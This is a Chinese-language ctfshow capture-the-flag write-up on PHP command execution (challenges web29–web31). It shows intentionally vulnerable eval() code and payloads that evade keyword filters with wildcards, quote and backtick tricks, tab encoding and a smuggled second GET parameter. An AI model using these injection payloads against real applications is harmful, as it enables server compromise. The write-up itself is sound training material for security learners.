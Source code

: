 ﻿---
title: ctfshow web入门(命令执行)
categories: ctfshow
---
## web29
```bash
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
payload:
```
  ?c=system("cat fl``ag.php");
  ?c=system("cat fla*.php");
  ?c=echo `nl fl''ag.php`;
```
cat 可替换为 `tac, more, less, curl, nl, tail, sort, strings`


---
## web30
payload:
```
 ?c=echo`nl fl*`;
```
---
## web31


```bash
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
payload:
```
1. ?c=eval($_GET[1]);&1=system("cat flag.php");
2. ?c=echo`nl%09fl*`;
```
此题通过get先传一个参数1，在后面执行cat flag.php的命令是不会被过滤的

---